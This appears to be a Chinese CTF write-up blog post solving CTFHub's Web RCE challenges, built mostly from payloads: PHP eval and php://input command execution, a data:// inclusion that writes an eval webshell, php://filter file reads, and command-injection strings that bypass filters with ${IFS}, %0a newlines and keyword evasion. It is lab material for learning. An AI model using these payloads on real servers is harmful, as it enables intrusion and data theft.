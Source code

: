 ```yaml
---
layout: post
title: CTFHub Web RCE
subtitle: CTFHub Web RCE
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. RCE

### 1.1. eval 执行

![image](https://img.ghostliner.top/HxrYS3.png)

传入 cmd 参数

```php
system("ls -lR / | grep flag");
```

![image](https://img.ghostliner.top/qNEyyj.png)

```php
system("find / -name flag_14104");
```

![image](https://img.ghostliner.top/9C8iWe.png)

```php
system("cat /flag_14104");
```

`ctfhub{d3eaaa2187eddb495ba02f6e}`

### 1.2. 文件包含

![image](https://img.ghostliner.top/jmFpp4.png)

分析代码，GET 传 file 参数不能有“flag”字符，自带 shell.txt 文件

```uri
http://challenge-78e9fffaec2d5817.sandbox.ctfhub.com:10800/?file=shell.txt
```

蚁剑连接

![image](https://img.ghostliner.top/xZi4Lq.png)

### 1.3. php://input

![image](https://img.ghostliner.top/VxOlc8.png)

![image](https://img.ghostliner.top/AuRO1e.png)

成功

```php
a=<?php system("ls /");?>
a=<?php system("cat /flag_21991");?>
```

![image](https://img.ghostliner.top/21aV0j.png)

### 1.4. 远程包含

![image](https://img.ghostliner.top/ry5rgQ.png)

```url
http://challenge-057c54b0b096a464.sandbox.ctfhub.com:10800/?file=data://,<?php fputs(fopen('shell.php','w'),'123<?php eval($_POST["code"]);?>');
```

成功

![image](https://img.ghostliner.top/EOIWV4.png)

### 1.5. 读取源代码

![image](https://img.ghostliner.top/XEYP2h.png)

分析：file 参数以 `php://` 开头，存在 `/flag` 文件

```url
http://challenge-a8afd380d641eed1.sandbox.ctfhub.com:10800/?file=php://filter/resource=/flag
```

![image](https://img.ghostliner.top/AjZYM4.png)

### 1.6. 命令注入

```shell
127.0.0.1|ls
```

![image](https://img.ghostliner.top/cKK2E9.png)

```shell
127.0.0.1|cat 262363244510708.php
```

![image](https://img.ghostliner.top/P6tAJ6.png)

### 1.7. 过滤 cat

**可以使用 tac、head、tail**

`127.0.0.1|ls`

![image](https://img.ghostliner.top/T8tX0v.png)

`127.0.0.1|head flag_42519488108.php`

![image](https://img.ghostliner.top/uMbovh.png)

### 1.8. 过滤空格

**可以使用 <、${IFS}**

`127.0.0.1|ls`

![image](https://img.ghostliner.top/rp3hlM.png)

```url
http://challenge-66d5d23f43cc02ba.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cat<flag_35921562431926.php
```

![image](https://img.ghostliner.top/P1aFEZ.png)

### 1.9. 过滤目录分隔符

**多重命令执行，cd 到指定目录再 cat 内容**
![image](https://img.ghostliner.top/VT5WHH.png)

`127.0.0.1|cat flag_is_here` 无内容，`ls -l` 分析是目录

![image](https://img.ghostliner.top/Yic2Pf.png)

查看目录

![image](https://img.ghostliner.top/t1lY7K.png)

```url
http://challenge-ccfac5e714299f03.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cd flag_is_here;cat flag_27471845213010.php
```

![image](https://img.ghostliner.top/17za4S.png)

### 1.10. 过滤运算符

![image](https://img.ghostliner.top/FXaBnm.png)

只过滤了 `|`、`&` ，未过滤 `;`

`127.0.0.1|ls`

![image](https://img.ghostliner.top/Jb0m05.png)

`127.0.0.1;cat flag_69852691721920.php`

![image](https://img.ghostliner.top/6ygJ0I.png)

### 1.11. 综合过滤练习

![image](https://img.ghostliner.top/sDdCQa.png)

过滤了 `|`、`&`、`;`、` `、`/`、`cat`、`flag`、`ctfhub`

```php
127.0.0.1%0als
```

![image](https://img.ghostliner.top/stGyCh.png)

```php
127.0.0.1%0als${IFS}-R # ${IFS}代替空格ls -R
```

![image](https://img.ghostliner.top/uUGqij.png)

```php
127.0.0.1%0amv${IFS}fla*${IFS}fff%0als${IFS}-R #将文件夹flag改名为fff
```

![image](https://img.ghostliner.top/ORtTf5.png)

![image](https://img.ghostliner.top/OtLqGW.png)

flag 文件无权限改名

```php
127.0.0.1%0acd${IFS}fff%0agrep${IFS}"ctf"${IFS}*.php #使用grep搜索*.php文件避开关键字
```

![image](https://img.ghostliner.top/QyhraO.png)
